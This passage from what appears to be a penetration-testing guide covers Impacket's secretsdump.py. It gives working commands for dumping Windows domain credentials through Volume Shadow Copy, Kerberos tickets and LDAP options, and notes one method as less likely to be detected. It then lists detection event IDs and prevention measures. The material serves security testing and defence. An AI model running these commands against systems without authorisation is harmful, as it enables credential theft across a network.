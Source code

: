 ### Advanced Techniques

#### VSS (Volume Shadow Service) Method
```bash
# Use Volume Shadow Copy for extraction
secretsdump.py DOMAIN/user:pass@target -use-vss

# Benefits:
# - Can extract from locked files
# - Less likely to be detected
# - Works even if services are running
```

#### Kerberos Authentication
```bash
# Use Kerberos ticket instead of password
export KRB5CCNAME=/tmp/krb5cc_0
secretsdump.py -k -no-pass DOMAIN/user@target.domain.local

# With specific ticket cache
secretsdump.py -k -no-pass -dc-ip dc_ip DOMAIN/user@target
```

#### LDAP Integration
```bash
# Specify LDAP server
secretsdump.py DOMAIN/user:pass@target -ldap-server ldap://dc.domain.local

# Use LDAPS
secretsdump.py DOMAIN/user:pass@target -ldap-server ldaps://dc.domain.local
```

### Defensive Considerations

#### Detection Indicators
```bash
# Windows Event Logs to monitor:
# - Event ID 4624: Logon (Type 3 - Network)
# - Event ID 4648: Explicit credential logon
# - Event ID 4672: Special privileges assigned
# - Event ID 5140: Network share accessed (ADMIN$, C$)
# - Event ID 4697: Service installed (if using service method)

# Registry access patterns:
# - HKLM\SAM\SAM\Domains\Account\Users
# - HKLM\SECURITY\Policy\Secrets
# - Remote registry access to these keys
```

#### Prevention Strategies
```bash
# Implement proper access controls:
# - Restrict administrative access
# - Use LAPS for local admin passwords
# - Enable credential guard
# - Implement JEA (Just Enough Administration)
# - Monitor for suspicious registry access
# - Use Protected Users group for sensitive accounts
```

